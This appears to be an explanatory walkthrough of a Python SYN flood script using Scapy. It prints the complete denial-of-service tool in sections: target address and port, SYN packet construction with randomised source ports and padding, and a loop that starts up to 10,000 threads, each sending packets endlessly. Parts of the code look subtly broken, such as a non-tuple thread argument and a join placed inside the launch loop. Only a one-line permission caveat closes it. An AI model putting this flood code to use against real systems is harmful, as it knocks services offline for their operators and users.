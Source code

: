 This Python script sends a continuous stream of SYN packets to a target IP and port, aiming to overwhelm the target in what is known as a SYN flood attack. The code uses Scapy to create packets and Python’s `threading` module to send these packets in parallel. Let’s break down the code:

### 1. Importing Modules

```python
from scapy.all import *
import threading
```

The `scapy.all` import brings in all Scapy’s networking and packet-building capabilities. `threading` is imported to handle concurrent sending of packets, making the flood more intense.

### 2. Defining Target Parameters

```python
target_ip = "192.168.1.1"  # Target IP address
target_port = 80           # Target port
```

`target_ip` and `target_port` define the destination IP and port that will receive the flood.

### 3. Constructing the Packet Layers

```python
ip = IP(dst=target_ip)  
tcp = TCP(sport=RandShort(), dport=target_port, flags="S")
raw = Raw(b"X"*1024)
p = ip / tcp / raw
```

Here’s how the packet is constructed:
   - **IP Layer**: `IP(dst=target_ip)` specifies the destination IP.
   - **TCP Layer**: `TCP(sport=RandShort(), dport=target_port, flags="S")` creates a SYN packet. The `RandShort()` function randomizes the source port, while `flags="S"` sets the SYN flag.
   - **Payload**: `Raw(b"X"*1024)` adds 1 KB of dummy data as payload, which isn't necessary for a SYN flood but increases data transfer.
   - **Complete Packet**: `p = ip / tcp / raw` combines the layers into a complete packet (`p`).

### 4. Threaded Packet Sending

```python
thread_list = list()
def envoyer(p):
    send(p, loop=1, verbose=0)
```

   - **Thread List**: `thread_list` will store each thread for later synchronization.
   - **Sending Function**: `envoyer(p)` is the function each thread will execute. It continuously sends the packet `p` in an infinite loop due to `loop=1`.

### 5. Launching the Threads

```python
for _ in range(1,10000):
    try:    
        flood = threading.Thread(target=envoyer, args=(p))
        thread_list.append(flood)
        flood.daemon = True
        flood.start()
        for flood in thread_list:
            flood.join()
    except:
        print("Something went wrong!")
```

   - **Loop for Thread Creation**: The loop tries to create 10,000 threads.
   - **Daemon Threads**: Each thread is set to daemon mode, meaning they’ll terminate automatically if the main program ends.
   - **Start and Join Threads**: Each thread is started immediately, then `flood.join()` ensures the main program waits until all threads finish.
   - **Error Handling**: If something goes wrong (e.g., if there are too many threads or network issues), it will print `"Something went wrong!"`.

### Summary
This script performs a SYN flood by creating numerous threads, each sending packets to the target. Each packet has a randomized source port, the SYN flag set, and an additional 1 KB of data. The high volume of packets aims to exhaust the target’s resources, which can result in a denial of service if successful. However, this code should be used responsibly and only on networks and systems you own or have permission to test.